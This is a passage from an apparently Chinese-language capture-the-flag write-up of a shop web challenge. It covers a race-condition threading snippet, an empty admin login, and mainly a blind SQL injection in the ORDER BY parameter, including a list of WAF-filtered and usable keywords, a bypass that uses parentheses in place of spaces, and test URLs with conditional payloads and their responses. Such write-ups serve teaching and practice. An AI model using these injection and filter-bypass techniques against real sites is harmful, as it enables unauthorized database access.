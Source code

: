 ```python
	threading.Thread(target=buy).start()
	threading.Thread(target=sale).start()



```



后来，尝试admin 空登陆，就能发现很多钱。迷

买到HINT,

```
OK! Now I will give some hint: you can get flag by use `select flag from ce63e444b0d049e9c899c9a0336b3c59`
```

接下来的思路就很明显了，就是在oder那边有一个注入，很多东西都被WAF了，而且没有回显，不可能报错注入，只能盲注。

fuzz一波

过滤：

```
' or and 空格 union sleep || %0a binary /**/ <> = extractvalue floor updatexml
```

()一起的时候就会过滤

可用：

```
(xxx) , select as procedure limit asc desc distinct having like (sqlattempt2) & mid substr ascii exists from if
```

可以用(name)绕过空格

测试一波：

http://202.120.7.197/app.php?action=search&keyword=C&order=(price)desc

http://202.120.7.197/app.php?action=search&keyword=C&order=(price)asc

两者出来的顺序不同，很显然是一个order by后面的注入。



```
202.120.7.197/app.php?action=search&keyword=&order=(1)
{"status":"suc","goods":[{"id":"1","name":"Frostmourn","price":"4000","number":0},{"id":"2","name":"Erwin Schrodinger's Cat","price":"1600","number":0},{"id":"3","name":"!HINT!","price":"8000","number":3},{"id":"4","name":"Backsword","price":"2800","number":2},{"id":"5","name":"Brownie","price":"2200","number":2},{"id":"6","name":"Ice Cream","price":"300","number":2}]}
202.120.7.197/app.php?action=search&keyword=&order=(0)
{"status":"fail","msg":"error occurs or no result here."}
http://202.120.7.197/app.php?action=search&keyword=C&order=if(BOOL,name,price)
打算基于这个进行盲注(因为每一个数据是唯一的，所以name，if（true，price，name)这种二次排序就不行
202.120.7.197/app.php?action=search&keyword=&order=(if(1,name,price))
{"status":"suc","goods":[{"id":"3","name":"!HINT!","price":"8000","number":3},{"id":"4","name":"Backsword","price":"2800","number":2},{"id":"5","name":"Brownie","price":"2200","number":2},{"id":"2","name":"Erwin Schrodinger's Cat","price":"1600","number":0},{"id":"1","name":"Frostmourn","price":"4000","number":0},{"id":"6","name":"Ice Cream","price":"300","number":2}]}
202.120.7.197/app.php?action=search&keyword=&order=(if(0,name,price))
{"status":"suc","goods":[{"id":"2","name":"Erwin Schrodinger's Cat","price":"1600","number":0},{"id":"5","name":"Brownie","price":"2200","number":2},{"id":"4","name":"Backsword","price":"2800","number":2},{"id":"6","name":"Ice Cream","price":"300","number":2},{"id":"1","name":"Frostmourn","price":"4000","number":0},{"id":"3","name":"!HINT!","price":"8000","number":3}]}
```
